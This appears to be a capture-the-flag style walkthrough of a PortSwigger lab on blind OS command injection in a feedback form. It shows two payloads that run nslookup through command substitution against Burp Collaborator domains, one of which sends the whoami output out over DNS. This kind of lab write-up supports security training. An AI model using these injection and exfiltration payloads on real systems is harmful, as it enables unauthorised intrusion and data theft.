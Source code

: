 
# Blind OS command injection with out-of-band data exfiltration

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/os-command-injection



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20data%20exfiltration/1.png)

---------------------------------------------

There is a function to submit feedback. It allows out-of-band interaction with the payload:

```
$(nslookup juh2fcq2cctj3nb1g8ecp69m6dc400op.oastify.com)
```



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20data%20exfiltration/2.png)


We get the username ("peter-0B6BNY") using the payload:

```
$(nslookup `whoami`.m1o5mfx5jf0maqi4nblfw9gpdgj774vt.oastify.com)
```



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20data%20exfiltration/3.png)



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20data%20exfiltration/4.png)
